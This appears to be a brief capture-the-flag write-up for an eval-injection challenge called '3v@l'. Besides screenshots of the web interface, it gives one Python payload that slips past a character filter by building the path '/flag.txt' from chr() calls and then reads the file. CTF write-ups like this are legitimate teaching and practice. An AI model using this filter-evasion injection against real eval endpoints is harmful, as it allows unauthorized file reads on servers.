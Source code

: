 # 3v@l

![Screenshot from 2025-03-18 23-06-20](https://github.com/user-attachments/assets/eb82c75e-701a-4fbf-b7cb-659874ea961b)

## web interface

![Screenshot from 2025-03-18 23-08-17](https://github.com/user-attachments/assets/c2308374-8638-4de8-98b0-b5301299c0ea)

payload ```open(chr(47)+"flag"+chr(46)+"txt").read()```

![Screenshot from 2025-03-18 23-08-49](https://github.com/user-attachments/assets/48422562-4e62-4ca5-814c-9ab2741cd4be)



